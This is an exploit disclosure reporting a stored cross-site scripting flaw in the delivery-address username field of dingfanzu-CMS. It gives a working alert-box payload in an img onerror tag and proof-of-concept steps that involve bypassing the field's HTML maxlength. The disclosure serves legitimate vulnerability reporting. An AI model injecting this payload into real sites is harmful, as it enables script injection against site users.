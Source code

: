 # dingfanzu-CMS order_confirm.html Delivery-Address Stored Cross-Site Scripting(XSS)

**Exploit Title: dingfanzu-CMS order_confirm.Delivery-Address Stored Cross-Site Scripting**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.dingfanzu-CMS does not filter the content correctly at the Delivery-Address "username" module, resulting in the generation of stored XSS.

    Payload used:

```
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

## Proof of Concept

register a account

![](D:\software_data\markdown_image\2024-08-22-14-47-37-image.png)

![](D:\software_data\markdown_image\2024-08-22-14-47-59-image.png)

Write a user Delivery Address

change HTML Maxlength 

![](D:\software_data\markdown_image\2024-08-22-15-21-41-image.png)

XSS-Payload :  `<img src=x onerror=alert(String.fromCharCode(88,83,83));>`

![](D:\software_data\markdown_image\2024-08-22-15-15-51-image.png)
